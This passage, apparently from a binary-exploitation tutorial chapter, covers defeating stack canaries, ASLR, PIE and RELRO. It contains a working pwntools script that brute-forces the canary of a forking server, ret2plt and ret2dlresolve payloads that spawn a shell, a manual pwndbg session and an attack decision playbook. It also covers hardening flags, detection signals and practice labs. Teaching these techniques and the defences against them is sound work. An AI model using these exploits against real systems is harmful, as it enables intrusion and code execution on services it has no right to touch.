        C-->>X: ok (no crash) keep guess_byte
      else guess wrong
        C-->>X: crash/silence, try next of 256
      end
    end
    Note over X: canary recovered (<=7*256 tries); repeat for saved RIP / PIE low bytes
```

### 10.3 The exploit

```python
#!/usr/bin/env python3
from pwn import *
context.log_level = 'warn'
HOST, PORT = '127.0.0.1', 9000
OFFSET = 72        # bytes from buf start to the canary slot (found via cyclic/gdb)

def oracle(payload):
    """Return True if the child survived (saw 'ok'), i.e. no canary/RIP crash."""
    try:
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recv(timeout=1)
        r.close()
        return b'ok' in data
    except EOFError:
        return False

def brute_secret(prefix, nbytes, known=b''):
    """Recover nbytes of a secret one byte at a time using the crash oracle."""
    secret = known
    while len(secret) < nbytes:
        for guess in range(256):
            trial = prefix + secret + bytes([guess])
            if oracle(trial):
                secret += bytes([guess])
                log.warn('byte %d = %#04x  (%s)', len(secret)-1, guess, secret.hex())
                break
        else:
            log.error('no valid byte found — offset wrong?')
    return secret

# 1) Canary: low byte is 0x00 (terminator) — known for free.
canary = brute_secret(prefix=b'A'*OFFSET, nbytes=8, known=b'\x00')
log.warn('CANARY = %s', canary.hex())

# 2) With the canary known, brute the saved return address low bytes the same way
#    (PIE base low bytes) to point RIP at a win()/one_gadget — 2 bytes -> <=16*256 tries,
#    often far fewer thanks to the fixed page offset. (Left as the payoff step.)
```

Sample output:

```
[!] byte 0 = 0x00  (00)
[!] byte 1 = 0x3c  (003c)
[!] byte 2 = 0x9a  (003c9a)
...
[!] byte 7 = 0x71  (00...71)
[!] CANARY = 003c9a...71
```

**Why this works and its limits:** it works only because (a) the child *aborts* (distinguishable oracle) rather than silently continuing, (b) the parent keeps forking with the *same* canary, and (c) a wrong guess is cheap. Defences that break it: re-`exec` (not just `fork`) per connection so each worker re-randomises the canary/PIE (`execve` re-reads `fs:0x28` fresh); rate-limiting/crash-throttling; and per-request random cookies. This is the exact reasoning behind "don't just fork — fork+exec for privilege boundaries."

---

## Part 11: ret2plt & ret2dlresolve — Leaking or Resolving With No Leak

Sometimes you have a stack overflow and NX but **no obvious read primitive and no fork oracle**, and you still need a libc address. Two classic techniques manufacture one from the binary itself (they need PIE *off*, or a separate PIE leak first).

### ret2plt — make the program leak for you

If the binary imports `puts` (or `write`), you already have a function that prints memory. Build a ROP chain that calls `puts(puts@GOT)` — this prints the *resolved* libc address of `puts` straight to you. Then return into `main` (or the vulnerable function) to loop back and send a second-stage payload now that you know the libc base.

```python
# Stage 1 (PIE off, or add PIE base): leak libc via puts(puts@got), then re-enter main
rop = ROP(elf)
rop.puts(elf.got['puts'])     # puts(puts@GOT) -> prints libc puts address
rop.call(elf.symbols['main']) # loop back for stage 2
payload = b'A'*offset + rop.chain()
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
# Stage 2: now build system('/bin/sh') with known libc base and send again.
```

### ret2dlresolve — abuse the dynamic linker

When there's **no useful import to leak with** and no leak at all, `ret2dlresolve` forges the data structures (`Elf64_Rela`, `Elf64_Sym`, a fake symbol string) that `_dl_runtime_resolve` consumes, tricking the linker into resolving **`system`** for you and calling it — no libc base knowledge required. pwntools automates the structure crafting:

```python
from pwn import *
elf = context.binary = ELF('./target')     # non-PIE, Partial RELRO, lazy binding
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.read(0, dlresolve.data_addr)            # stage the fake structures into a known bss addr
rop.ret2dlresolve(dlresolve)
p = process(); p.sendline(b'A'*offset + rop.chain())
p.sendline(dlresolve.payload)               # deliver the forged Rela/Sym/str
p.interactive()
```

Constraints: it wants **lazy binding** (so *not* Full RELRO — Full RELRO resolves everything eagerly and there's no runtime resolver to abuse) and a writable, known-address region to stage structures (easy when PIE is off; possible with a PIE leak). It's the canonical answer to "static-ish binary, no leak, Partial RELRO."



---

## Part 11b: Worked GDB Session — Locating the Canary and Offsets by Hand

Automation (pwntools `cyclic`) is fast, but you must be able to do this by hand to debug when automation lies. Here is a full pwndbg session against Lab A's `vuln`, ASLR off, that recovers every offset the exploit needs.

```text
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
$ gdb -q ./vuln
pwndbg> checksec
    Canary : Yes    NX : Yes    PIE : Yes    RELRO : Partial
pwndbg> break vuln
pwndbg> run
# at the prologue, single-step past the canary store:
pwndbg> canary
AT_RANDOM = 0x7fffffffe309  # canary is 0x....00
Canary    = 0x2b7c9f14e3a80900
pwndbg> tls
Thread Local Storage (TLS) base: 0x7ffff7d8e640
pwndbg> x/gx 0x7ffff7d8e640+0x28      # master canary at fs:0x28
0x7ffff7d8e668: 0x2b7c9f14e3a80900     # matches -> confirmed
```

Now find how far `buf` is from the canary slot and from saved RIP, using a cyclic pattern so we can read the crash offset directly:

```text
pwndbg> cyclic 200
aaaabaaacaaadaaae...   # paste at the overflow> prompt
pwndbg> continue
# canary trips first if we run past it; to measure RIP distance instead,
# temporarily build with -fno-stack-protector, or inspect frame layout:
pwndbg> p &buf           # e.g. 0x7fffffffe2a0
$1 = 0x7fffffffe2a0
pwndbg> p $rbp-8         # canary slot address
$2 = 0x7fffffffe2d8
pwndbg> p/d 0x7fffffffe2d8 - 0x7fffffffe2a0
$3 = 56                  # <- buf..canary distance == our 'A'*56 in the exploit
pwndbg> p/d ($rbp+8) - &buf
$4 = 72                  # <- buf..saved RIP distance (56 canary + 8 RBP + 8)
```

Those two numbers — 56 (pad to canary) and 72 (pad to RIP) — are exactly the constants Lab A and Lab B hardcode. Deriving them by hand also confirms the **8-byte gap** between canary and saved RIP (the saved RBP), which is why the exploit writes `p64(canary) + b'B'*8 + <rop>`. **Red-team/VR usage:** when a target is stripped and pwntools' `cyclic` offset disagrees with reality (packed frame, `alloca`, tail-call), this manual `&buf` vs `$rbp` arithmetic is the ground truth you fall back on.

To confirm a leaked libc slot's offset, run once with ASLR off and subtract the known base from `vmmap`:

```text
pwndbg> vmmap libc
0x7ffff7c00000 0x7ffff7c28000 r--p ... /lib/x86_64-linux-gnu/libc.so.6
pwndbg> # leaked slot value was 0x7ffff7c29d90
pwndbg> p/x 0x7ffff7c29d90 - 0x7ffff7c00000
$5 = 0x29d90              # <- the offset the exploit subtracts to rebase libc
```

That `0x29d90` is precisely the constant in Lab A's `libc.address = leak - 0x29d90`. Do this derivation on the **target's** libc, never a random local one.

---

## Part 11c: Entropy Math — Is a Brute Force Even Feasible?

Deciding whether to brute-force is arithmetic, not vibes. The question is always "how many guesses, and can I afford them?"

| Secret | Naïve entropy | Smart entropy | Why smaller |
|---|---|---|---|
| Full canary (blind guess) | 2^56 | — | infeasible; never blind-guess a whole canary |
| Canary, byte-by-byte (fork) | — | ≤ 7 × 256 = 1,792 | low byte is `00`; oracle per byte |
| PIE base, byte-by-byte (fork) | 2^28 | ≤ ~5–6 × 256 | low 12 bits fixed; brute the middle bytes |
| 2-byte partial overwrite | 2^16 | 16 (2^4) | low 12 bits fixed → only 1 random nibble |
| libc base (blind, no leak) | 2^28 | — | infeasible remotely; get a leak instead |

The decisive property for byte-by-byte is a **crash oracle that costs O(1) per guess and doesn't kill the server**. With a fork server at even 50 connections/second, 1,792 canary guesses complete in ~36 seconds — trivial. A 2-byte partial overwrite at 16 tries completes in under a second. But a *blind* 2^28 libc-base guess at 50/s would take ~62 days: infeasible, which is exactly why you spend your effort finding an info-leak instead of brute-forcing ASLR directly. The general rule:

```
feasible_seconds  ≈  guesses / oracle_rate
guesses(byte-by-byte, n unknown bytes)  ≤  n * 256      (linear, cheap)
guesses(blind, k random bits)           =  2^(k-1) avg  (exponential, usually hopeless)
```

**Byte-by-byte turns exponential into linear** — that is the whole reason fork servers are so dangerous, and why the single most effective architectural fix (Part 13) is to `execve` fresh per worker so the secret re-randomises and every guess resets to zero information.

---

## Part 12: Putting the Bypasses Together — A Decision Playbook

Reading `checksec` and choosing an approach is the skill this chapter builds. Use this as your triage:

1. **`checksec` the target.** Note RELRO / Canary / NX / PIE.
2. **Do I have a read/leak primitive?** (format string, OOB read, uninitialised print, `puts(user)`).
   - *Yes* → leak canary (defeats canary) and a libc pointer (defeats ASLR) and/or a code pointer (defeats PIE). This is almost always the shortest path (Lab A).
   - *No* → continue.
3. **Is the target a forking server (crash ≠ full death)?** → byte-by-byte brute the canary and PIE low bytes (Lab B).
4. **No leak, no fork, but a `puts`/`write` import and PIE off/leaked?** → ret2plt to self-leak libc, re-enter, ret2libc.
5. **No leak, no import, lazy binding (not Full RELRO), PIE off/leaked?** → ret2dlresolve.
6. **Partial RELRO and a write primitive?** → GOT overwrite (`printf@GOT → system`, or a hook) may be simplest of all.
7. **Full RELRO + no stack ROP?** → FSOP (`_IO_FILE` vtable), `__exit_funcs`, or find a stack pivot.
8. **Cramped control, have libc base?** → try `one_gadget` before building a full `system` chain.

The unifying theme: **every mitigation reduces to "the attacker lacks some address or secret", and every bypass is a way to obtain that address or secret** — by leaking it, by brute-forcing it, by not needing it (static/self-resolving), or by exploiting the parts ASLR forgot to randomise (the fixed page offset).

---

## Part 13: Detection & Defense Angle

Mitigations are the defender's product; understanding how they fall tells you how to deploy them well.

**Build the binary right.** The single highest-leverage defensive action is compiling with the full modern set and *verifying with `checksec` in CI*:

```bash
gcc -O2 -D_FORTIFY_SOURCE=3 -fstack-protector-strong \
    -fstack-clash-protection -fcf-protection=full \
    -fPIE -pie -Wl,-z,relro,-z,now -Wl,-z,noexecstack -o app app.c
```

- `-fstack-protector-strong` — broad canary coverage; costs ~1–3% and stops linear smashes cold.
- `-Wl,-z,relro,-z,now` — **Full RELRO**; removes GOT-overwrite entirely. Prefer it for anything security-sensitive despite slower startup.
- `-D_FORTIFY_SOURCE=3` — compile-time + runtime bounds checks on `memcpy`/`sprintf`/`strcpy` family; turns many overflows into clean aborts.
- `-fstack-clash-protection` — probes the stack so large allocations can't jump the guard page (stack-clash attacks).
- `-fcf-protection=full` — **CET**: shadow stack + IBT (indirect-branch tracking). Shadow stacks make ROP/return-hijack dramatically harder because the CPU keeps a protected copy of return addresses; this is the forward-looking mitigation that most changes the game beyond this chapter.
- Keep ASLR at `randomize_va_space=2` system-wide; never ship with it lowered.

**Detection at runtime.** `*** stack smashing detected ***` on stderr and `SIGABRT`/core dumps are your canary-trip signal — alert on `__stack_chk_fail` aborts and on repeated child crashes of a forking service (the Lab B brute-force *looks like* a burst of crashing workers with incrementing payloads: a strong IDS/behavioural signal). Log and rate-limit worker crashes; a healthy server does not crash hundreds of times per minute. **Blue-team usage:** wire abort/segfault counters per service into your metrics; a spike is either a bug or an exploitation attempt in progress. **IR use case:** cores from a forking daemon with near-identical payloads of increasing length are the fingerprint of a canary/PIE brute-force — pull the payloads from the core/packet capture to confirm.

**Detection signal reference.** Map each bypass to something a defender can actually observe:

| Attack in progress | Observable signal | Where to catch it |
|---|---|---|
| Canary/PIE fork brute-force | Burst of worker `SIGABRT`/`SIGSEGV`, payloads of fixed length with one incrementing tail byte | systemd `coredumpctl`, per-service crash counter, WAF/IDS on connection rate |
| Format-string leak probe | Input containing `%p`, `%x`, `%n`, `%N$p` reaching a logging/`printf` sink | Input validation logs, `auditd` on the process, RASP |
| GOT/hook overwrite | Writable GOT page written post-startup; unexpected `system`/`execve` from a network daemon | `seccomp` denylist of `execve`, eBPF exec tracing (`execsnoop`) |
| ret2libc / one_gadget | Daemon spawning `/bin/sh` with a socket as stdin/stdout | eBPF `execsnoop`, EDR process-lineage (network daemon → shell) |

The highest-signal, lowest-effort detection for almost all of these is **`execve` monitoring on processes that should never exec** (a parser, an image decoder, a network daemon): a `seccomp` policy that turns `execve` into an audited kill converts "attacker got a shell" into "attacker got a logged crash".

**Architectural defences that neutralise whole chapters:** fork+*exec* (not bare fork) for workers so a compromised/guessed canary doesn't persist across children; run the parser in a separate, sandboxed, re-randomising process; deploy **CET shadow stacks** (hardware) where available; and reduce the attack surface that yields info-leaks in the first place (no `printf(user)`, no reflecting uninitialised memory, `_FORTIFY_SOURCE` on string ops). Every info-leak you deny is an ASLR/canary bypass you deny.

---

## Part 14: Common Pitfalls

- **Forgetting the canary's `00` low byte.** Your leaked canary ends in `00`; if you drop or "clean" it, you write the wrong value and trip the check. Always keep it exactly.
- **Wrong libc offset → non-page-aligned base.** After `libc.address = leak - offset`, assert `libc.address & 0xfff == 0`. If it isn't page-aligned, your offset (or libc version) is wrong. Never proceed on a misaligned base.
- **Confusing PIE base with libc base.** They are independent. Leaking one does not give the other; rebase the correct ELF object with the correct leak.
- **movaps SIGSEGV in ret2libc.** glibc `system` uses SSE and requires 16-byte stack alignment. If it crashes *inside* `do_system`/`movaps`, insert a lone `ret` gadget before the call to realign RSP (as in Lab A).
- **Developing against ASLR while it's on.** Set `randomize_va_space=0` (or `setarch -R`) *only* while building; then re-enable and prove the exploit works via your leak. Otherwise you'll bake in an address that changes.
- **Brute-forcing a re-exec server.** If each worker `execve`s fresh, the canary/PIE re-randomise and byte-brute is impossible. Confirm it's fork-only (shared canary) before investing.
- **Off-by-frame in format-string offsets.** `%N$p` positions shift with compiler/build; re-derive `%N$` on the exact target, don't reuse another challenge's numbers.
- **Assuming Full RELRO where it's Partial (or vice-versa).** Read `checksec` every time; it dictates whether GOT overwrite / ret2dlresolve are even possible.

---

## Part 15: Final Revision / Summary

- Mitigations are **AND-composed defences** but share one weakness: an **information leak** frequently defeats canary, ASLR and PIE together.
- **Stack canary:** random value (low byte `00`, 56-bit entropy) between locals and saved RIP, from TLS `fs:0x28`, checked in the epilogue. Beat it by **leaking**, **skipping** (non-linear write), or **fork brute-force** (children share the canary).
- **NX/DEP:** no stack shellcode → **ROP/ret2libc** (Chapter 3).
- **ASLR:** randomises libc/stack/heap bases but **not the low 12 bits**. Beat it by leaking one address and rebasing, or by **partial overwrites** of the fixed low bytes.
- **PIE:** randomises the binary's own base too — a **second, independent** base needing a **code-pointer** leak. Often ignorable if libc alone supplies `system`/gadgets.
- **RELRO:** *Partial* leaves `.got.plt` writable (GOT overwrite lives); *Full* maps GOT read-only (pivot to FSOP/hooks/stack ROP).
- **No-leak toolkit:** `ret2plt` (self-leak via `puts@GOT`), `ret2dlresolve` (forge linker structs, needs lazy binding), and `one_gadget` for cramped single-jump wins.
- **Workflow:** `checksec` → find/obtain a leak → defeat canary+ASLR(+PIE) → corrupt control flow → ROP to `system`/one_gadget.

Memory hook: **"Leak beats all, fork lets you guess, partial beats the page ASLR forgot, Full RELRO says pick a new target."**

---

## Part 16: Cheat Sheet / Quick Reference

```text
RECON
  pwn checksec ./bin           mitigations at a glance
  readelf -h ./bin | grep Type DYN=PIE, EXEC=non-PIE
  cat /proc/sys/kernel/randomize_va_space   0/1/2 (ASLR level)
  setarch $(uname -m) -R ./bin  run once with ASLR off (dev only)

CANARY
  layout: [buf][CANARY 8B, low byte 00][saved RBP][saved RIP]
  master: TLS fs:0x28 ; per-thread ; inherited across fork()
  leak -> write same value back ; skip via OOB/ptr write ; fork -> byte brute
  pwndbg> canary        show live canary

ASLR / PIE
  low 12 bits NEVER randomised (page offset fixed)
  libc_base = leak - libc.symbols['sym']   (assert base & 0xfff == 0)
  elf.address = code_leak - elf.symbols['sym']   (rebase PIE)
  partial overwrite: p16(low2)  -> <=16 tries (4 random bits)

RELRO
  Partial -> .got.plt writable -> GOT overwrite OK / ret2dlresolve OK
  Full    -> GOT read-only, eager bind -> FSOP / hooks / stack ROP

NO-LEAK
  ret2plt:       rop.puts(elf.got['puts']); rop.call(main)  -> leak, re-enter
  ret2dlresolve: Ret2dlresolvePayload(elf, 'system', ['/bin/sh'])  (lazy bind)
  one_gadget ./libc.so.6    magic execve('/bin/sh') single jumps

PWNTOOLS SNIPPETS
  libc = ELF('./libc.so.6'); libc.address = leak - libc.sym['puts']
  system = libc.sym['system']; binsh = next(libc.search(b'/bin/sh\0'))
  ret = pop_rdi+1   # alignment fix before system (movaps)
```

---

## Part 17: Practice Labs & Resources

- **pwn.college — "Memory Errors" / "Program Security" modules:** dedicated levels for canary leaks, PIE bypass via partial overwrite, and ASLR-defeating leaks — the best structured drilling for this exact chapter.
- **ROP Emporium — `callme`, `pivot`, `ret2csu`, and the canary/PIE variants:** clean, mitigation-focused challenges; do them with and without a leak.
- **picoCTF — `canary`, `stack_cache`, `here's a libc`, `format string` series:** beginner-to-intermediate versions of every primitive here (canary leak, ret2libc with provided libc).
- **HackTheBox pwn tracks (e.g. *Racecar*, *Console*, fork-server challenges):** realistic remote binaries with PIE + canary + NX where you practise leak-then-ret2libc and fork brute-force.
- **`libc-database` / [libc.rip](https://libc.rip):** identify an unknown target libc from a couple of leaked lower-3-nibble addresses, then pull exact offsets.
- **Nightmare (guyinatuxedo) heap/rop notes and the "how2heap" repo:** for the Full-RELRO pivots (hooks/FSOP) referenced here and expanded in Chapter 6.
- **Build-your-own:** compile `vuln.c` from Lab A at each mitigation level (`-fno-stack-protector`, `-no-pie`, `-z norelro`, `-z now`) and re-exploit — the fastest way to feel exactly which bypass each flag forces.

Practice question set:

1. A `checksec` shows *Full RELRO, Canary, NX, PIE*. You have a single format-string read and a single stack overflow. Which mitigations does the format string defeat, and why can you still not overwrite a GOT entry?
2. You leak `0x7fabcd12e3f0` and know `puts` is at libc offset `0x80e50`. Compute the libc base and explain how you'd verify it's correct before trusting it.
3. A forking server has Canary + PIE, no leak. You've recovered the canary. Explain how partial overwrites let you redirect execution to a `win()` function with at most 16 brute-force attempts, and which bytes are deterministic vs random.
4. Why does `ret2dlresolve` fail against Full RELRO but succeed against Partial RELRO?
5. Give two code-level changes that would make Lab B's byte-by-byte canary brute-force impossible, and explain the mechanism of each.

In the next chapter we go deep on the single most versatile leak-*and*-write primitive in this whole playbook — the **format string vulnerability** — turning `printf(user)` into arbitrary reads (the canary/libc leaks used here) and arbitrary writes (GOT/hook overwrites).
